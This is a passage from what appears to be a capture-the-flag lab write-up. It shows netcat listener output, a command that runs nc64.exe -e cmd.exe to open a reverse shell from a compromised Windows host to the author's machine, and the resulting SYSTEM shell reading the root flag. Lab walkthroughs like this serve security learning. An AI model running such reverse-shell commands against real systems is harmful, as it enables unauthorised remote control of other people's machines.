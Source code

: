 ```{.txt}
Ncat: Listening on 0.0.0.0:12345
Ncat: Connection from 10.10.10.180.
Ncat: Connection from 10.10.10.180:49698.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>C:\inetpub\wwwroot\Media\1034\nc64.exe -e cmd.exe 10.10.14.48 12346
```
Now checking my second, I get a connection back and I am `nt authority/system` and I can read the `root.txt file`
```{.txt}
# nc -lvnp 12346
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::12346
Ncat: Listening on 0.0.0.0:12346
Ncat: Connection from 10.10.10.180.
Ncat: Connection from 10.10.10.180:49699.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority/system
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.text
dcf3ea5c7f6868a71fc1e111657265eb
```
